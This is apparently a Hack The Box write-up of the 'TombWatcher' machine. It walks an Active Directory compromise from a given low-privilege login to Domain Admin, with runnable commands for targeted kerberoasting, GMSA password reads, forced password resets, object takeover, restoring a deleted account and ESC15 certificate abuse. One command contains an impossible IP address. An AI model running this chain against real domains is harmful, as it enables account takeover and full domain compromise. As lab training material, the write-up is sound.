

## About TombWatcher

**Name:** TombWatcher

**Machine:** https://app.hackthebox.com/machines/TombWatcher

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.232.167

**Credentials:** `henry: H3nry_987TGV!`


---
## Recon

I'll start with an nmap scan to identify open ports and services:

```
$ nmap -sC -sV -v -oA TombWatcher 10.129.232.167

PORT     STATE SERVICE       VERSION                                                                                                                  14:12 [64/154]
53/tcp   open  domain        Simple DNS Plus                                                                                                                        
80/tcp   open  http          Microsoft IIS httpd 10.0                                                                                                               
| http-methods:                                                                                                                                                     
|   Supported Methods: OPTIONS TRACE GET HEAD POST                                                                                                                  
|_  Potentially risky methods: TRACE                                                                                                                                
|_http-server-header: Microsoft-IIS/10.0                                                                                                                            
|_http-title: IIS Windows Server                                                                                                                                    
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-08 12:40:15Z)                                                                         
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                  
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                          
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)                                       
|_ssl-date: 2026-08-08T12:41:45+00:00; +3h59m41s from scanner time.                                                                                                 
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb                                                                                                                
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb                                                                 
| Issuer: commonName=tombwatcher-CA-1                                                                                                                               
| Public Key type: rsa                                                                                                                                              
| Public Key bits: 2048                                                                                                                                             
| Signature Algorithm: sha1WithRSAEncryption                                                                                                                        
| Not valid before: 2024-11-16T00:47:59                                                                                                                             
| Not valid after:  2025-11-16T00:47:59                                                                                                                             
| MD5:     a396 4dc0 104d 3c58 54e0 19e3 c2ae 0666                                                                                                                  
| SHA-1:   fe5e 76e2 d528 4a33 8adf c84e 92e3 900e 4234 ef9c                                                                                                        
|_SHA-256: 5128 aaea b79b bc06 762a 04d6 b475 4a21 a52c d1b1 205a 0440 85bd f5d6 2734 6ea9                                                                          
445/tcp  open  microsoft-ds?                                                                                                                                        
464/tcp  open  kpasswd5?                                                                                                                                            
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0   
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)                                       
|_ssl-date: 2026-08-08T12:41:44+00:00; +3h59m41s from scanner time.                                                                                                 
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb  

| SHA-1:   fe5e 76e2 d528 4a33 8adf c84e 92e3 900e 4234 ef9c                                                                                                 [0/154]
|_SHA-256: 5128 aaea b79b bc06 762a 04d6 b475 4a21 a52c d1b1 205a 0440 85bd f5d6 2734 6ea9                                                                          
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                         
|_http-title: Not Found                                                                                                                                             
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows 
```

Kerberos, LDAP, and SMB together confirm this is a domain controller. The domain is `tombwatcher.htb`, hostname `DC01`. I'll add both to `/etc/hosts`.


Port 80 just serves a default IIS page.


I run a directory brute force against it anyway, just to be thorough:

```
ffuf -u http://10.129.232.167/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```


Nothing interesting turns up.

## Enumeration

Since the web side is a dead end, I'll shift to the AD services. We're given a starting credential, `henry:H3nry_987TGV!`, so I'll check for accessible SMB shares first:

```
netexec smb 10.129.262.167 -u henry -p 'H3nry_987TGV!' --shares
```


Nothing worth digging into here either. Next, I'll enumerate domain users:

```
netexec smb 10.129.232.167 -u henry -p H3nry_987TGV! --users | tee users.txt
```


This gives four non-default usernames worth following up on.
## Foothold

With a set of users in hand, I'll pull data for `BloodHound` to map out the domain:

```
sudo bloodhound-python -u henry -p 'H3nry_987TGV!' -ns 10.129.232.167 -d tombwatcher.htb -c all
zip -r tombwatcher.zip *.json
```

I import the zip into BloodHound.


Marking `henry` as owned and checking his outbound object control, he holds `WriteSPN` over the user `alfred`.


`WriteSPN` lets me register a custom SPN on `alfred`'s account, which makes him kerberoastable even though he wasn't originally, the resulting TGS ticket can then be cracked offline to recover his password.

I'll set a fake SPN on `alfred` using `henry`'s credentials:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' set object alfred servicePrincipalName -v 'fake/kerberoast'
```

Now that `alfred` has an SPN, I'll request his TGS ticket:

```
impacket-GetUserSPNs -dc-ip 10.129.232.167 tombwatcher.htb/henry -request-user alfred -outputfile alfred_tgs
```


The SPN itself gets set correctly, but the TGS request fails due to clock skew between my machine and the DC. I'll fix that with `faketime` and re-run it:

```
sudo apt install faketime -y
faketime "$(ntpdate -q 10.129.232.167 | cut -d' ' -f1,2)" impacket-GetUserSPNs -dc-ip 10.129.232.167 tombwatcher.htb/henry -request-user alfred -outputfile alfred_tgs
```


With the hash captured, I crack it:

```
john --wordlist=/usr/share/wordlists/rockyou.txt alfred_tgs
```



I test the recovered password against SMB and WinRM. It works for SMB, but not for WinRM.


Digging further in BloodHound, `alfred` can add himself to the `Infrastructure` group. Members of that group have read access to the GMSA password for the service account `ansible_dev$`.


I'll add `alfred` to `Infrastructure` group:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball add groupMember "infrastructure" "alfred"
```

Then read the GMSA password for `ansible_dev$`:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball -s get object 'ansible_dev$' --attr msDS-ManagedPassword
```


With that password recovered, BloodHound shows `ansible_dev$` holds `ForceChangePassword` over the user `sam`.


I'll use that to reset `sam`'s password and authenticate as him:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p ':cb3161cb2c9d84b58ba3014f55040d75' set password sam 'pass123'
```


Continuing enumeration as `sam`, he holds `WriteOwner` over the user `john`, who's a member of `Remote Management Users` - a high-value target since that means WinRM access.


`WriteOwner` lets me take ownership of `john`'s object, then grant myself further rights to fully take it over. I'll chain this together:

```
# Take ownership of john's object
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' set owner john sam

# Grant myself GenericAll on john
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' add genericAll john sam

# Reset john's password
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' set password john 'password123' 
```


I can now authenticate as john successfully!


I log in with `john`'s credentials:

```
evil-winrm -i 10.129.232.167 -u john -p password123
```

My evil-winrm connection kept dropping, so I read the user flag through NetExec instead:

```
netexec winrm 10.129.232.167 -u john -p password123 -x "type C:\Users\john\Desktop\user.txt"
```


## Privilege Escalation

While exploring BloodHound as john, he holds `GenericAll` over the OU `ADCS@TOMBWATCHER.HTB`.


This OU had no visible objects in it, which looks suspicious. I'll check for deleted AD objects inside it:

```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
```

This turns up several deleted items, including a user account, `cert_admin`.


I'll restore this account:

```
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf 
```

With `GenericAll` on the OU covering this restored account, I can reset its password directly:

```
Set-ADAccountPassword -Identity 'cert_admin' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```

Now that I have full control over `cert_admin`, I'll check certificate templates for anything vulnerable:

```
certipy-ad find -u cert_admin@tombwatcher.htb -p Password123! -dc-ip 10.129.232.167 -vulnerable
```


Checking the generated report, `20260808225118_Certipy.txt`, confirms an `ESC15` vulnerability on one of the templates


`ESC15` lets a low-privileged enrollee supply their own application policy and Subject Alternative Name in the certificate request - meaning I can request a client-auth certificate for any user, including `administrator`, without needing that account's own permissions.

I'll request a certificate for `administrator`, abusing this misconfiguration:

```
certipy-ad req -u cert_admin -p 'Password123!' -dc-ip 10.129.232.167 -target DC01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```


With the `administrator.pfx` certificate now in hand, I use it to obtain an LDAP shell as `administrator@tombwatcher.htb`:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167 -ldap-shell
```

From here, I add `john` directly to `Domain Admins`.


Back in the `evil-winrm` session, `john` is confirmed as a member of `Domain Admins`.


With that, I can read the root flag.


---